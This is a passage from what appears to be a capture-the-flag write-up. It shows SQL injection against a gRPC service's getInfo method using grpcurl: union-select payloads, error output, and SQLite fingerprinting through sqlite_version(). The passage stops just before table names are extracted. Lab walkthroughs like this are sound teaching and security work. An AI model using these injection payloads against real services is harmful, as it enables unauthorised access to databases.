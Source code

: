     
    
    oxdf@hacky$ grpcurl -d "id: \"320' union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    ERROR:
      Code: Unknown
      Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
    

Still nothing. Interestingly, if I remove the `'`, there’s injection:

    
    
    oxdf@hacky$ grpcurl -d "id: \"320 union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "1"
    

That means that the SQL query is something like `select * from table where
userid = {input}`, and the `input` is an integer, so it isn’t wrapped in `"`
or `'`.

### Enumerate DB

#### Identify DB

I’ll replace the 1 with `user()` and `version()`, but both break:

    
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select user()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    ERROR:
      Code: Unknown
      Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
    oxdf@hacky$ grpcurl -d 'id: "320 union select version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    ERROR:
      Code: Unknown
      Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
    

This might not be MySQL. It could be SQLite. I’ll try `sqlite_version()`, and
it works:

    
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "3.31.1"
    

#### Get Table Names

PayloadsAllTheThings has a [SQLite Injection
page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#string-
based---extract-database-structure). I’ll use the query here to get the table
names:

